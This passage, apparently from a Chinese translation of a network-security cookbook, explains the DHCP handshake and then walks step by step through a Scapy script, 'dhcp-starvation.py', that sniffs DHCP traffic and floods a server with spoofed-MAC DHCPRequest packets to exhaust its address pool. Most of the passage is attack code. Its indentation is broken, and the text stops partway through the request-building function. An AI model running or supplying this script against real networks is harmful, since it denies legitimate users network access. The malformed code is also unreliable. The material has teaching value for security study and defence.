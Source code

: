 DHCPDiscover 是客户端在 LAN 中广播以查找可为客户端提供 IP 的 DHCP 服务器的第一步。然后服务器将以单播 DHCPOffer 响应，其中它提供了一个可能的 IP。然后，客户端将使用 IP 向所有网络广播 DHCPRequest，最后服务器将使用 DHCP ACK 或 DHCP NAK 进行响应。ACK 表示 DHCP 进程成功，而 NAK 表示 IP 不可用时：

![](../images/00060.jpeg)

DHCP 服务器将 IP 信息存储到 MAC 绑定。如果我们从 DHCP 服务器请求太多 IP，其他合法客户端将无法获得 IP 连接。这被称为**DHCP 饥饿攻击**。在这个配方中，我们将讨论这个过程的第三步。发送 DHCP 请求后，服务器将为客户端分配请求的 IP。这可用于攻击特定范围的 IP。

# 怎么做。。。

让我们尝试编写一个脚本，以使网络中的 DHCP 处于饥饿状态：

1.  创建一个`dhcp-starvation.py`文件并在编辑器中打开。
2.  导入所需的模块：

```
from scapy.all import *
from time import sleep
from threading import Thread 
```

我们需要`Scapy`来制作数据包，需要`threading`模块来线程化执行脚本

3.  现在，定义变量：

```
mac = [""]
ip = []  
```

4.  现在我们可以定义回调函数来处理捕获的 DHCP 数据包：

```
def callback_dhcp_handle(pkt):
    if pkt.haslayer(DHCP):
       if pkt[DHCP].options[0][1]==5 and pkt[IP].dst != "192.168.1.38":
          ip.append(pkt[IP].dst)
             print (str(pkt[IP].dst)+" registered")
          elif pkt[DHCP].options[0][1]==6:
              print ("NAK received")  
```

调用此函数以处理嗅探器接收到的每个数据包

5.  现在我们必须创建另一个函数来配置嗅探器。此函数由线程调用：

```
def sniff_udp_packets():
    sniff(filter="udp and (port 67 or port 68)",
          prn=callback_dhcp_handle,
          store=0)  
```

这将开始嗅探端口`67`和`68`的 UDP 数据包

6.  现在，我们可以创建一个 DHCPRequest 数据包并将其发送到计划饿死的 DHCP 服务器：

```
def occupy_IP():
    for i in range(250):
        requested_addr = "192.168.1."+str(2+i)
        if requested_addr in ip:
             continue
          src_mac = ""
          while src_mac in mac:
              src_mac = RandMAC()
         mac.append(src_mac)    
          pkt = Ether(src=src_mac, dst="ff:ff:ff:ff:ff:ff")
          pkt /= IP(src="0.0.0.0", dst="255.255.255.255")
          pkt /= UDP(sport=68, dport=67)
          pkt /= BOOTP(chaddr="\x00\x00\x00\x00\x00\x00",xid=0x10000000)
```